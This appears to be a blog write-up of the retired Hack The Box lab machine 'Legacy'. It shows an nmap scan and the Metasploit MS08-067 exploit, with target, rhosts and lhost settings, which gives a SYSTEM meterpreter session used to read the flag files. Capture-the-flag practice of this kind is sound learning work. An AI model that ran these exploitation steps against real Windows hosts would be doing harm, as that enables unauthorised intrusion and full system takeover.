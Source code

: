 ```yaml
---
layout: post
title: Hack The Box - Legacy
---
```

![](https://cdn-images-1.medium.com/max/800/1*5M6-ofIj4NRY49YkIQC38w.png)

Lame is a retired machine that is easy in difficulty and is a Windows OS. I’ll be using a virtual machine and a copy of Parrot OS, which can be downloaded from [here](https://parrotlinux.org/).

### Enumeration

I’ve started to use a new command for initial enumeration with nmap. The command must be run with elevated privileges. Using this scan should ensure that it scans relatively quickly, checks for service versions, identifies OS of the system, scans all ports, outputs to a file called legacy.txt, and uses an aggressive scan timing. The output results of the scan below.

```shell
sudo nmap -sS -sV -A -p- -oN legacy.txt -T4 10.10.10.4
```

![](https://cdn-images-1.medium.com/max/800/1*pscUvNHVhCFpPIVJntKpgQ.png)

This scan shows us that there are 2 open ports and 1 closed port. The 2 open ports are ports 139 which is netbios, and 445 which is microsoft ds. It also shows us that there is a 94% chance that the operating system is Windows XP SP3. This gives us some information to search for., so lets start by searching for windows xp sp3 netbios exploit. Within the first couple of results is an article from rapid 7 with how to exploit the machine with metasploit. Perfect.

### Exploitation

Lets fire up metasploit with msfconsole, and when it is finished loading type _use exploit/windows/smb/ms08_067_netapi  
_We then need to see what targets are available so we type show targets, and it shows a very large amount of options. Since we can assume that the os is Windows XP SP3 lets choose that option as the target. So we use the command _set target 7_ then we need to set the options for the for rhosts and lhost with `set rhosts 10.10.10.4` and `set lhost <your ip>`. Once these options have been set use the command exploit to run the exploit.

![](https://cdn-images-1.medium.com/max/800/1*yEHrmaz-GeuwmX2W-blmqQ.png)

As you can see from the screenshot using this options gave us a meterpreter session, when running getuid the command returns NT System. We should then be able to locate the user.txt as well as the root.txt files in C:\documents and settings\john\user.txt and C:\documents and settings\administrator\root.txt. Once the file has been located, typing `type user.txt` and `type root.txt` will give you the flags.